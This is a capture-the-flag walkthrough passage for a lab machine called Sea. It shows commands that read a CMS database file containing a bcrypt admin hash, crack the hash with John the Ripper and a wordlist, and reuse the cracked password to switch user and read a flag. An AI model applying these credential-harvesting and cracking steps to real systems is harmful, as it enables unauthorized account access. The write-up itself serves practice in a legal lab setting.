 This box released August 10th. This was either a mistake or deliberate and was certainly not another player. If you want to know how to upload a theme for a foothold, check the final section where I give the 5 steps to do so.

## database leak

Since I know there is an admin user looking at the websites within the contact form, I can conclude that admin must have a password. I go to check the /var/www/sea directory and find a database.js file.

```bash
$ cat data/database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/07\/31 15:17:10": "127.0.0.1",
            "2024\/07\/31 15:15:10": "127.0.0.1",
            "2024\/07\/31 15:14:10": "127.0.0.1"
        },
```

John can handle whatever that is I presume.

```bash
john hash --wordlist=/opt/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mychemicalromance (?)
1g 0:00:00:16 DONE (2024-08-10 21:19) 0.05966g/s 182.5p/s 182.5c/s 182.5C/s iamcool..memories
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```bash
$ su amay
Password: mychemicalromance
id
uid=1000(amay) gid=1000(amay) groups=1000(amay)
cd ~
pwd
/home/amay
ls
user.txt
cat user.txt
1f554d4724930-------------------
```
